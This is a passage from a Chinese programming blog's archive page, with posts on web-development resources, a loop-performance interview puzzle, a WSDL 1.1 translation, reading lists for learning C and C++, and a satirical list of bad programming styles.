- 不知道你是不是一个怀旧的人，你是否还记得以前用C语言开发Web的时光呢？我记得我97-98年的时候学过用C开发web应用，觉得挺难学的，我还没有完全搞懂，就出现了ASP，PHP……。这两天看到一篇 [C++ Web Programming](http://www.tutorialspoint.com/cplusplus/cpp_web_programming.htm)，讲得真是很系统啊，从处理HTTP Header，到处理表单和上传文件。看完后，感觉有点坐着时光机器回到大学时的感觉。呵呵。

- 说到Web编程，现在的Web编程和以前很不一样了。你觉得未来的Web编程的技术会是什么样的？NoSQL? 服务器端的Javascript? 各种像Amazon的EC2或S3的云计算平台？更新更强大的开发框架？HTML 5/CSS 3？这里有一篇文章你可以去看看 – “[7 Exciting Web Development Trends for 2011](http://net.tutsplus.com/articles/general/7-exciting-web-development-trends-for-2011/)”.

- 无论Web编程到了什么时候，安全问题永远都是你需要注意的。这里有一篇文章“[What Every Web Programmer Needs To Know About Security](https://code.google.com/intl/zh-CN/edu/submissions/daswani/index.html)” –  每一个Web程序员都应该知道的安全问题。

- 再推荐两个关于WebGL的游戏演示，一个是3D的比较好玩的有点[像贪吃蛇一样的游戏](http://cycleblob.com/)，另一个是[RPG式的游戏](https://nicolas-bonnel.github.com/WARPG/index.html)，第三人称视角，看上去很不错。

- 这里有20款图标，http://www.tutorialcadet.com/20-user-interface-icon-sets-for-developers/，也许会对你的UI开发有帮助。wikipedia上也有一些[免费的图标](https://commons.wikimedia.org/wiki/Comparison_of_icon_sets)。

- 在以前的“[一些资源介绍](https://coolshell.cn/articles/3480.html)”的文章中介绍过[一篇教程](http://mikeos.berlios.de/write-your-own-os.html)教你用x86的汇编做一个操作系统， 这里又有一篇文章向你展示了一个最最简单的操作系统内核，这个操作系统叫做[Itsy-OS Kernel](http://www.retroprogramming.com/2011/03/itsy-os-simple-preemptive-switcher.html)，你可以看看。

- 你还记得Google在四月一日愚人节那天搞的那个[Google Gmail Motion](https://mail.google.com/mail/help/motion.html)吗？用你的body Language写邮件？呵呵，不过，某人使用微软的Kinect做到了，视频在这里：[http://www.youtube.com/watch?v=Lfso7_i9Ko8](https://www.youtube.com/watch?v=Lfso7_i9Ko8)。项目主页在这里：http://projects.ict.usc.edu/mxr/faast/。
- 不知道你看过电影《创战纪》了吗？我个人觉得电影很一般。不过你想知道里面的一些特效是用什么样的技术怎么做的吗？呵呵，其中的一个程序员写了一篇博文 – “[Tron Legacy](http://jtnimoy.net/workviewer.php?q=178)”，我看到了Unix, C++等。这篇文章很不错。

好的，就这么多，也欢迎你分享你所看到的和听到的东西。

（全文完）

# 又一个有趣的面试题

#####  [2011年04月02日 ](https://coolshell.cn/articles/4162.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [71 条评论](https://coolshell.cn/articles/4162.html#comments) 55,906 人阅读

大家还记得前些天的那个[火柴棍式的面试题](https://coolshell.cn/articles/3961.html)吗？很有趣吧。下面是我今天在StackExchange上看到的一个[有趣的面试题](https://programmers.stackexchange.com/questions/64132/interesting-interview-question)。大家不妨一起来思考一下。问题如下——

有两个相同功能代码如下，**请在在A，B，C是什么的情况下，请给出三个原因case 1比case 2快，还有三个原因case 2会比case 1要执行的快。**（不考虑编译器优化）

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3065602780&amp;adf=3100344465&amp;pi=t.aa~a.425447425~i.3~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220573&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4162.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xmPf9hSS6t1XxzaTi-MR4-A1MlIhx5oB-oiYiN-qyDRi5iDtR-zT1gaUWUlYqmfrrHgcxic&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225575736&amp;bpp=1&amp;bdt=2710&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280&amp;nras=5&amp;correlator=5857835919304&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=354862961&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1053&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074469%2C31074635%2C42531706%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvjvTJx1TMlly6hcuTcIEBdvAunv09frJmg-OVHKjmBynbcCexK50mlurYyOC0b9ki8JH0r-5Ul2MlBM&amp;pvsid=2466547103456097&amp;tmod=182273927&amp;uas=0&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4162.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=9TYd16waUh&amp;p=https%3A//coolshell.cn&amp;dtd=2707" data-google-container-id="a!4" data-google-query-id="CLKLvZq1-f4CFYToWwodu5UJow" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>


**for** (i=0; i<N; ++i){

​    A;

​    B;

​    C;

}


**for** (i=0; i<N; ++i){

​    A;

}

**for** (i=0; i<N; ++i){

​    B;

}

**for** (i=0; i<N; ++i){

​    C;

}

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3065602780&amp;adf=2024372947&amp;pi=t.aa~a.425447425~i.11~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220573&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4162.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xmPf9hSS6t1XxzaTi-MR4-A1MlIhx5oB-oiYiN-qyDRi5iDtR-zT1gaUWUlYqmfrrHgcxic&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225575730&amp;bpp=1&amp;bdt=2704&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=5857835919304&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=354862961&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1657&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074469%2C31074635%2C42531706%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvjvTJx1TMlly6hcuTcIEBdvAunv09frJmg-OVHKjmBynbcCexK50mlurYyOC0b9ki8JH0r-5Ul2MlBM&amp;pvsid=2466547103456097&amp;tmod=182273927&amp;uas=0&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4162.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=3RUOrNL2r9&amp;p=https%3A//coolshell.cn&amp;dtd=2671" data-google-container-id="a!3" data-google-query-id="CMK7vJq1-f4CFZoH-QAdU50AIg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>


我的第一个反应是——


- case1 要快一些，因为只有一个i++的i<N的操作，而case 2却有三个，这在点上，case 1就比case 2要快。
- case2如果要快的话，有一个原因是，A, B, C其中一个需要去先获得一个资源（比如一个锁），在case1下，每次都要去拿这个资源，而case2下，只需要拿一次然后。但这个可能是不对的，因为我无法想出一个相同的语句块放在case 1中会和放在case 2中有差别。（不过可能比较接近了）

继续思考：这个题有点像是“**同步和异步**”的问题，case 1是同步，case 2是异步，所以，异步快于同步，也许可以从这个方向出发，写出A, B, C的语句块。

不过，其要三个原因啊。**各位，你们有想法吗**？

**—-更新 1—-**

刚才在twitter上与人讨论，发现又有一种情况，case 2要比case 1要快。比如，A, B, C分别访问是不同的内存块（数组），那么case 1就得在不同的内存块上来回切换寻址，而case2则可以连续地访问内存块。访问连续的内存效率要高。尤其是三块大内存。

**—-更新 2—**

正如本贴评论中所说的，CPU的cache也是其中一个因素。大家对底层知识了解的都很不错啊。赞一个。

# WSDL 1.1 中文规范

#####  [2011年04月01日 ](https://coolshell.cn/articles/4131.html) [Neo](https://coolshell.cn/articles/author/neo) 评论 [9 条评论](https://coolshell.cn/articles/4131.html#comments) 9,784 人阅读

WSDL规范目前最新的版本是2.0 ，但是目前大部分还是按1.1的版本进行使用，而且1.1的内容看上去比2.0也简单些，所以我就翻译了这个版本。

作为一种《[炒作过度的技术和概念](https://coolshell.cn/articles/3609.html)》的一类，WEB Service的确是太过重量级，对于小型的应用，还是因该避免去使用xml和SOAP这些技术。但是在企业级的应用，WEB Service已经开始成为了一种常态，所以对其有一定了解或多或少都是有一些好处的。

当然，通过读规范来学习一门技术的方法，从来都不是一种好的学习方法，规范只是配合你学习的参考。而且WSDL1.1规范中笔误太多，笔者就发现了两处，都一一做了修正。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1004421109&amp;adf=1391264333&amp;pi=t.aa~a.425447425~i.5~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684221560&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4131.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xmNd61642W9jsHrKkTcjyQmiZxYr6cXU-xIi5PoGDlhS9DxDCo-IbPu8eFxpOV5QCJcqxds&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225579846&amp;bpp=1&amp;bdt=3760&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=5409358193951&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1224826156&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=882&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074546%2C31074601%2C31074635%2C44782467%2C44788442%2C44792089&amp;oid=2&amp;pvsid=1145732476466010&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F28&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=mIW5MfSyyC&amp;p=https%3A//coolshell.cn&amp;dtd=7015" data-google-container-id="a!3" data-google-query-id="COGkw561-f4CFacErQYdJ9AAlQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

原文的地址在：http://www.w3.org/TR/wsdl ，学习WSDL，需要有一定XML，XML Schema XSD，SOAP的相关知识，请在阅读时特别注意。

另外WSDL1.1是一个宽泛的规范，所有的语法都以非正式的形式出现，而且为了满足WEB Service 扩展性的需求，也不可能定义出详尽的语法，请在阅读时特别注意。

我的翻译版本以word形式提供，请要转载的同学们别把酷壳logo去掉的，转载请注明出处。

由于个人水平有限，翻译难免出现错误。还请读者海涵。

下载：[WSDL 中文规范1.1](https://coolshell.cn/wp-content/uploads/2011/03/WSDL-中文规范1.1.doc)

# 如何学好C++语言

#####  [2011年03月30日 ](https://coolshell.cn/articles/4119.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [175 条评论](https://coolshell.cn/articles/4119.html#comments) 196,607 人阅读

昨天写了一篇[如何学好C语言](https://coolshell.cn/articles/4102.html)，就有人回复问我如何学好C++，所以，我把我个人的一些学习经验写在这里，希望对大家有用。首先，因为[如何学好C语言](https://coolshell.cn/articles/4102.html)中谈到了算法和系统，所以这里就只谈C++语言。

- **C++是最难的语言**。这个世界上最难的编程语言可能非C++莫属了。你千万不要以为[几天就可以学好C++](https://coolshell.cn/articles/2250.html)，C++的学习曲线是相当BT的，你可以看看[这篇文章](https://coolshell.cn/articles/2287.html)。C++是一门很自由的语言，自由到了有点[BT和恐怖的地步](https://coolshell.cn/articles/1724.html)。我甚至认为C++并不是一门成熟的编程语言，因为太容易犯错了。所以，**你一定要在一开始就要有很小心谨慎的态度，并把C++当成一种难以训服的猛兽来看待**。

- **多问“为什么要这样”的问题**。学习C++一定要多问几个“为什么是这样”，“凭什么要这样”的问题。比如：很多人知道C++有拷贝构造函数和初始化列表，但你真的知道为什么要有拷贝构造函数？为什么要有初始化列表吗？为什么要有template，为什么要有RTTI，为什么不是别的呢？难道就是为了让一门语言变得Cool一些吗？完全不是这样的，C++中的任何一个feature都有些实实在在的原因，**你一定要去了解为什么要把C++设计成这样的原因，你才能学好C++**。有空看看《[C++演化和设计](http://product.china-pub.com/5217)》一书。


- 看书，大量的C++书

  。你可以按如下先后顺序阅读（下面这些书，我花了大约4-5年的时间，今天我还在随时温习）

  - 《[C++ Primer](http://product.china-pub.com/28767)》，这本初级读本可能让会你啃得很痛苦，所有的语言的特性和为什么都在里面了，好好读读。当然由C++之父写的《[C++程序设计语言](http://product.china-pub.com/196448)》也不错。两本看一本就好了（我看的是前者）。
  - 了解C++的语法仅仅是万里长征的第一步，你还需要看看《[Effective C++](http://product.china-pub.com/197414)》和《[More Effective C++](http://product.china-pub.com/197665)》这两本书并不厚，但我从02年就一直看到现在，每次读我都有新的体会，这两本书太经典了。如果你对C语言不熟，这两本书会让你回去补C语言的课。
  - [Think in C++](http://product.china-pub.com/4801)同样是另一本经典之极的书，学c++必读，但是中文版的翻译的很不好，所以还是去读英文版的吧。
  - 《[C++沉思录](http://product.china-pub.com/38130&ref=browse)》同样非常值得一读，这里教的不是编程，而是思考的方法，这是相当珍贵的。
  - 《[Exceptional C++](http://product.china-pub.com/33333)》和《[More Exceptional C++](http://product.china-pub.com/197666)》让你看看各种问题的解决方法和一些常见的经典错误。
  - 《[Advanced C++](http://product.china-pub.com/16697)》和《[Modern C++](http://product.china-pub.com/9700)》可以让你知道C++各种神奇的用法。
  - 《[泛型编程与STL](http://product.china-pub.com/9864)》是把C++实践到了极致的东西。很强大。STL——神一样的模板库（容器，算法和函数对象），不得不服。
  - 《[深入探索C++对象模型](http://www.china-pub.com/3290&ref=browse)》让你了解编译器下的C++是什么样的，让你了解C++的性能并不差。这个对于C++的程序员太关键了。我以前写过的《[C++虚函数表解析](https://coolshell.cn/articles/12165.html)》还有《[C++对象内存布局](https://coolshell.cn/articles/12176.html)》属于这个范畴。

- **和Java语言做对比**。我个人以为Java对C++这个并不成熟的语言做了很多调整，规范和限制。所以，对比一下Java和C++，想一想，为什么一些东西在C++中可以做，但在Java中却不行。比如：Java的异常是必需要catch的，不然就会编译不通过。为什么Java不提供操作符重载？为什么Java会引入接口来做多重继承？为什么Java没有像C++那样的I/O字符流？为什么Java不支持指针？为什么Java可以做到垃圾回收？等等。**Java体现着很多面向对象设计的东西，学习Java有助于你学会怎么更好地使用C++来编程**。

- **面向对象设计** 。虽然[面向对象可能是个骗局](https://coolshell.cn/articles/3036.html)。但是我觉得面向对象设计中的一些实践非常的不错，比如，单一原则，依赖倒置原则，等等，都非常地经典。《[设计模式](http://product.china-pub.com/25961)》必需一读，《[面向对象的分析和设计](http://product.china-pub.com/47106)》可以一读。**但不可以设计模式为中心来编程，而应该是用设计模式来解藕**。

- **类库学习**。看看MFC是怎么封装Windows API的，看看ACE是怎么面向对象的，看看boost是怎么玩面向对象的，看看CPPUnit又是怎么设计的。当然，[Java的JDK中有太多的设计模式](https://coolshell.cn/articles/3320.html)，可以参考。

希望没有吓到大家，并欢迎大家补充。

***—————更新 2011/03/30 19:20————***

更新几个观点：

- 1）我不擅长写书评，所以推荐的这些书可能会让你有点看点没有感觉，你可以上豆瓣或是China-pub上看看书评。
- 2）C++有很多奇淫技巧，有的很BT，包括虚函数表，也许会有人觉得有点没意思，但我觉得很有意思，一方面可以了解一门语言的实现细节，另一方面可以开阔思路。我从学习这些知识中受益很多。
- 3）上述是我的个人的学习历程，我觉得对我很有效，所以是经验之谈。
- 4）这类的文章在网上有很多很多，我不是第一个写这样的文章，我也不是写得最好的，我并不希望用长篇大论来谈论什么。只是想给大家了解一下大概的学习样子。毕竟，C++博大精深，任何一篇文章都无法说好。不如就简单一些。

# 如何学好C语言

#####  [2011年03月29日 ](https://coolshell.cn/articles/4102.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [267 条评论](https://coolshell.cn/articles/4102.html#comments) 368,612 人阅读

有人在酷壳的留言版上询问下面的问题

> [keep_walker](https://coolshell.cn/guestbook#comment-40269) **:**
> 今天晚上我看到这篇文章。
> http://programmers.stackexchange.com/questions/62502/small-c-projects
>
> 我也遇到了和提问的老外一样的问题。。能给像遇到这样烦恼的程序员一点建议嘛？谢谢！

我相信，这可能是很多朋友的问题，我以前也有这样的感觉，编程编到一定的时候，发现能力到了瓶颈，既不深，也不扎实，半吊子。比如：你长期地使用Java和.NET ，这些有虚拟机的语言对于开发便利是便利，但是对于程序员来说可能并不太好，原因有两个：

1. 虚拟机屏蔽了操作系统的系统调用，以及很多底层机制。
2. 大量的封装好的类库也屏蔽了很多实现细节。

一段时间后，你会发现你知其然，不知所以然。。我以前在CSDN上写过一篇《**Java NIO类库Selector机制解析（[上](http://blog.csdn.net/haoel/archive/2008/03/27/2224055.aspx)，[下](http://blog.csdn.net/haoel/archive/2008/03/27/2224069.aspx)，[续](http://blog.csdn.net/haoel/archive/2008/05/04/2379586.aspx)）**》，在那篇文章中我说提到过（有讥讽的语气）Java的程序员不懂底层实现，所以很难把技术学得更扎实。此时，一部分程序员会不自然地想学学底层的技术，很自然的，C语言就被提了上来。

下面是我给这位朋友的一些建议：


- **鼓励并为你叫好**。我鼓励你想要去学C语言的想法和精神，很多人都觉得C语言好学，其实并不然。（你可以看看《[C语言的迷题](https://coolshell.cn/articles/945.html)》）现在的这个社会更多地去关注那些时髦的技术，而忽略了这个流行了40+年的C语言。**一门技术如果能够流行40多年，这才是你需要去关注和学习的技术**，而不是那些刚出来的技术（[过度炒作的技术](https://coolshell.cn/articles/3609.html)，[Windows编程史](https://coolshell.cn/articles/3008.html)）。这才是踏踏实实的精神。

- **不要找借口**。这一条路走下来并不容易，不要给自己找借口。我最不喜欢听到的就是“**很忙，没有时间**”这样的借口。我以前在银行做项目，早9点到晚10点，周一到周六，我一样可以每天抽1个小时来看书和专研，一年下来也能精读5、6本书。我现在的工作项目和招聘任务很紧张，刚生的小孩只有自己和老婆两人带，还需要准备讲课，但是我还是能够找到时间看文章写文章维护酷壳。所以，我可以告诉你，“**时间就像乳沟，只要你肯挤，就一定会有**”。

- 学好C语言和系统编程

  。我认为，学好编程有四个方面：

  语言、算法和数据结构、系统调用和设计

  。

  - **语言**。我可以告诉你C语言有两大主题你要好好学，一个是内存管理，一个是指针！这个世界上90%以上的C/C++出的严重性错误全是和这两个有关。不要看谭浩强的那本书，那本是本烂书。推荐这本书给你《[C程序设计语言（第2版·新版）](http://product.china-pub.com/14975&ref=browse)》
  - **算法和数据结构**。我认为，用C语言实现算法和数据结构莫过于最爽的事情。推荐你看这本书——[算法:C语言实现(第1～4部分)基础知识、数据结构、排序及搜索(原书第3版)](http://product.china-pub.com/192975&ref=browse)，还有那本经典的《[算法导论](http://product.china-pub.com/31701)》
  - **系统编程**。Windows下推荐两本书——《[Windows 程序设计 ](http://product.china-pub.com/52880)》和《[Windows核心编程](http://product.china-pub.com/209058)》，Unix/Linux下推荐两本书——《[Unix高级环境编程](http://product.china-pub.com/30181)》和《[Unix网络编程卷1，套接字](http://product.china-pub.com/196770)》《[Unix网络编程卷2，进程间通信](http://product.china-pub.com/196859)》尤其是《Unix网络编程》这本书，一通百通，无论Windows还是Unix/Linux，都是一样的。
  - **系统设计**。关于设计方面，我全力推荐《[Unix编程艺术](http://product.china-pub.com/197413)》，看完以后，你就明白什么是真正的编程文化了。然后，当你看到Windows的Fans的某些言论时，你就知道什么叫一笑了之了。

如果你能在2-3年内精读完这些书，并全部融会贯通，那么你就明白什么是一览众山小的感觉了！我足足花了5年时间才算是真正全部读完这些书的。最后，祝你好运！努力！

***——-更新：2011/03/29 20:00——-***

我想，这篇文章主要想告诉大家这么几件事：

- 编程编到一定时候，你就需要了解底层系统的机制，否则，知其然不知所以然。
- 我没有否定非C的程序员的逻辑，真正的逻辑是——如果你想要了解底层机制，请学习C语言和操作系统。
- 40多年的Unix/C影响深远。包括影响了Windows。如果你想一通百通，一定要了解Unix。那是计算机文化真正的根。
- 不要肤浅地去思考问题。比如，不要以为一个DBA就不会考虑数据库引擎的内存页面的问题。也不要以为Web程序员就不需要了解后台的服务器和脚本的运行性能以及TCP/IP的问题。

**高手往往都是有很强的系统的基础知识的，表面的东西永远是肤浅的。**

# 各种流行的编程风格

#####  [2010年01月22日 ](https://coolshell.cn/articles/2058.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [172 条评论](https://coolshell.cn/articles/2058.html#comments) 148,190 人阅读

在过去的N年中，我遇到了很多使用囧然不同风格的开发者，下面是我所知道的一些，你还知道其它的吗？

目录


[散弹枪编程](https://coolshell.cn/articles/2058.html#散弹枪编程)[撞大运编程](https://coolshell.cn/articles/2058.html#撞大运编程)[Cargo-Cult 编程](https://coolshell.cn/articles/2058.html#Cargo-Cult_编程)[刻舟求剑编程](https://coolshell.cn/articles/2058.html#刻舟求剑编程)[设计模式驱动型编程](https://coolshell.cn/articles/2058.html#设计模式驱动型编程)[侦探型编程](https://coolshell.cn/articles/2058.html#侦探型编程)[屠宰式编程](https://coolshell.cn/articles/2058.html#屠宰式编程)

#### 散弹枪编程

这种编程风格是一种开发者使用非常随意的方式对待代码。“嗯，这个方法调用出错了……那么我会试着把传出的参数从 **false** 变成 **true**!”，当然依然出错，于是我们的程序员会这样：“好吧，那我就注释掉整个方法吧”，或是其它更为随意的处理方式，直到最后让这个调用成功。或是被旁边的某个程序员指出一个正确的方法。

如果我们把一个正规的程序员和一个撞大运的程序员放在一起做结地，那么，那个正规的程序可以马上变得发疯起来，并且，可以把正规的程序员的智商降到最低。两个撞大运的程序员不应该在一起做结对编程，这是因为他们破坏性的才能会造成的伤害会比只有一个还差。

#### 撞大运编程

这是一种比散弹枪编程要温和一些的编程方式，我相信这种方式可能会是大多数程序员都会使用的方式。这种编程方式经常出现于程序员并不确切知道他们在干什么，也不知道所写的程序的本质和实际，但是可以让程序工作起来。他们以一种撞大运的方式在写程序，某些时候，他们根本就不知道某个错误的原因，就开始稀里糊涂地修改代码。一旦出现问题，他们会用两条路：1）停下来，理解一下程序，找到出错的原因。2）使用散弹枪编程方式开始解决问题。

测试驱动开发（Test Driven Development）是一种可以用来拯救上百万的撞大运编程的程序员。于是，他们有了一个更为NB的借口：只要我的程序通过测试了，你还有什么话好说？别骂我，测试驱动开发是一个不错的事物，其主要是用来控制撞大运开发所带来的问题。

####  Cargo-Cult 编程

关于Cargo Cults 这个词儿来自二战期间的某些太平洋上小岛里的土著人。在战争期间，美国利用这些小岛作为太平洋战场上的补给站。他们在这些小岛上修建自己的飞机跑道以用来运输战争物资。而那些小岛上的土著人从来没有见过飞机，当他们看到飞机的时候，觉得相当的牛，可以为那些白人带来各种各样的物品和食物。当二战结束后，那些土著人仿照着修建了飞机跑道，并用竹子修建了塔台。然后就在那期望着有飞机为他们送来物品和食物。

Cargo Cult 编程是一种非常流行的编程方法，使用这种方法的程序员会学习其它编程高手的编程方法，虽然他们并不知道为什么高手们要那样做，但是他们觉得那样做可以让程序工作起来。举个例子，当时有大量的程序员在J2EE出现的第一年中过度地使用了EJBs和Entity Beans。

#### 刻舟求剑编程

刻舟求剑是一个很流行的寓言了。这种风格的编程在程序员的圈子里是非常常见的。比如，有一天，你发现了一个空指会的异常，于是你到了产生空指针异常的地方，简单地放上一个判断： `if (p != NULL)。`

是的，这样的fix可以让你的程序工作起来，但你并没有真正地解决问题。你只不过是在你的船边记下了剑掉下去的位置，这样做只不过把问题隐藏起来，最终只会让你的程序的行为变得神出鬼没。你应该找到为什么指针会为空的原因，然后再解决这个问题。

#### 设计模式驱动型编程

